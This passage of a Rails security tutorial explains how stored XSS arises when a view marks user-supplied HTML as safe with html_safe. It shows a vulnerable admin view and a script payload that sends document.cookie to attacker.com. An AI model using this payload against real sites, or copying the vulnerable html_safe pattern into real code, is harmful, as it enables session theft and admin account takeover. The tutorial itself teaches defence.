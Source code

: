 A Stored XSS vulnerability arises when data submitted by one user (the attacker) is stored in the application and is then displayed to other users without being sanitized properly. Let&#8217;s consider an example to illustrate how such a vulnerability can arise and how an attacker can take advantage of it.

### A Vulnerable Rails app

Consider a typical Rails app, with users and admins. A user record has three fields &#8211; `name`, `email` and `introduction`. Each user has a profile page where this information is listed. Admins in the system, in addition to being able to access these profile pages, also have access to a `/users` page which consolidates all the users&#8217; information. The view code for this page starts out looking something like this:

    <% #This is accessible only to admins %>
    <% User.all.each do |user| %>
      <%= user.name %>
      <%= user.email %>
      <%= user.introduction %>
    <% end %>
    

Now let&#8217;s say we want to give our users the ability to customize their introductions with HTML. So instead of typing in `"I'm awesome!!"` in the introduction field, they can type in `"I'm <strong>awesome!!</strong>"`. To accomplish this in our view, we make use of the `html_safe` helper and change `user.introduction` to `user.introduction.html_safe`. Now, if a user submits text with HTML in it, our view will render the HTML.

Hopefully, you can see where we are going with this.

### Enter Attacker

An attacker can take advantage of this HTML rendering and submit something like this in the introduction field:

    I'm awesome!!
    <script>
      var i = new Image;
      i.src = "http://attacker.com/" + document.cookie;
    </script>
    

and have this stored in the database. Now, whenever an admin logs in and visits the `/users` page, the above script will run and the attacker will see the admin&#8217;s cookie in their server logs. Using this cookie, they can proceed to log in as the admin and further their agenda (malicious though it may be).

## Two common ways XSS vulnerabilities can be introduced with `html_safe`

The above example illustrates one straightforward way by which an XSS vulnerability can be introduced with `html_safe`. That is, using `html_safe` directly on user inputs because we want to give users the ability to customize how their input renders.

Another way using `html_safe` can cause XSS vulnerabilities to sneak up on you is when you find yourself needing to incorporate styling on strings which are derived from user input. Going back to our example Rails app&#8217;s `/users` page, let&#8217;s say we&#8217;ve installed [Font Awesome](http://fontawesome.io/) and we want to provide admins a nicely styled link to a given user&#8217;s profile page. We might do something like this in our view:
